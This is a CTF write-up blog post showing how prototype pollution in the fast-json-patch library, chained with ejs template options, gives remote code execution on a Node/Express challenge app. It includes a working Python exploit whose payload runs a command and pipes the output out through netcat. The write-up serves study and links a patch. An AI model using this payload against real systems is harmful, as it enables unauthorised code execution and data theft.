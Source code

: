 ```yaml
---
layout: post
title:  "Exploiting prototype pollution in javascript"
date:   2021-06-01 12:11:51 +0530
categories: CTF js
---
```

<style type="text/css">
  img {
    padding: 5px;
    display: block;
  }
</style>
In this post, I will explain how we can exploit a prototype pollution vulnerability in fast-json-patch library (version: 3.0.0-1), a library for updating the JSON document. I learned about this during the pwn2win CTF 2021.

<h4><u>Challenge</u></h4>
1. We are given the source code for a node website that uses ejs and the fast-json-patch library.
2. The source code for the index.js is as follows:
```javascript
const express = require('express')
const bodyParser = require('body-parser')
const jsonpatch = require('fast-json-patch')
const ejs = require('ejs')
const basicAuth = require('express-basic-auth')
const app = express()
// Middlewares //
app.use(bodyParser.json())
app.use(basicAuth({
    users: { "admin": process.env.SECRET || "admin" },
    challenge: true
}))
let services = {
    status: "online",
    cameras: "online",
    doors: "online",
    dome: "online",
    turrets: "online"
}
// Static folder
app.use("/static", express.static(__dirname + "/static"));
// Homepage
app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
// API
app.post("/change_status", (req, res) => {
    let patch = []
    Object.entries(req.body).forEach(([service, status]) => {
        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }
        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });
    jsonpatch.applyPatch(services, patch)
    if ("offline" in Object.values(services)){
        services.status = "offline"
    }
    res.json(services)
})
app.listen(1337, () => {
    console.log(`App listening at port 1337`)
})   
```

<h4><u>Solution</u></h4>
```python
import requests
URL="http://localhost:1337"
payload="x;console.log(1);process.mainModule.require('child_process').exec('./readflag | nc localhost 4444');x"

requests.post(URL + '/change_status', json = {
    "constructor/prototype/outputFunctionName": payload
    }, auth=('admin', 'admin')
)

requests.get(URL, auth=('admin', 'admin'))
```
1. In the given source code, there is no validation being done for the JSON object that is passed to the POST request. This is the entry point for the vulnerability. 
2. The supplied input is passed on to the vulnerable applyPatch() function of the fast-json-patch library.
3. In the solution script, any function called in the payload for the key "constructor/prototype/outputFunctionName" will be executed by the renderFile function in the given source code. So we use the readflag binary to read the flag and pass it back to us using the nc utility. 
4. To create a tunnel between your computer and the remote server, we can use the ngrock utility.
5. A [patch][patch-url] for this vulnerability has been submitted as a pull request.

<h4><u>More reading</u></h4>
1. [AST injection][ast-injection]

[patch-url]: https://github.com/Starcounter-Jack/JSON-Patch/pull/262
[ast-injection]: https://blog.p6.is/AST-Injection/

